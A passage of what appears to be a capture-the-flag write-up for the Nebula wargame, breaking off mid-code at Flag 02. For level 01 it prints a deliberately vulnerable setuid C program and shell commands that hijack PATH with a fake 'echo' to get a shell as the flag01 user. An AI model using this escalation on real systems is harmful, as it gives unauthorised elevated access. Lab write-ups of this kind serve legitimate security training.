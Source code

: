 ## Level 01

This time we are given the following source code for a `setuid` binary in `/home/flag01`:

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

It is useful to know that the man pages contain the documentation of the functions that are used here. This program basically sets the real user id (which is `level01`) to the effective user id (`flag01`, due to the `setuid` bit). That way the command `/usr/bin/env echo and now what?` will be executed as `flag01`. The fact that we can change the environment variables loaded by `/usr/bin/env` allows us to manipulate this command:

```bash
level01@nebula:/home/flag01$ echo "/bin/bash" > /tmp/echo
level01@nebula:/home/flag01$ chmod a+x /tmp/echo 
level01@nebula:/home/flag01$ PATH=/tmp:$PATH ./flag01 
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```
I created a fake `echo` that just redirects to a shell and added it as the first element to the `$PATH` environment variable. This way the system will find the faked `echo` first, effectively replacing `echo` with `/bin/bash` in the command. Thus, we land in a shell from the `flag01` user due to the `setresgid/setresuid` calls.

## Flag 02

We have to exploit the following code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
```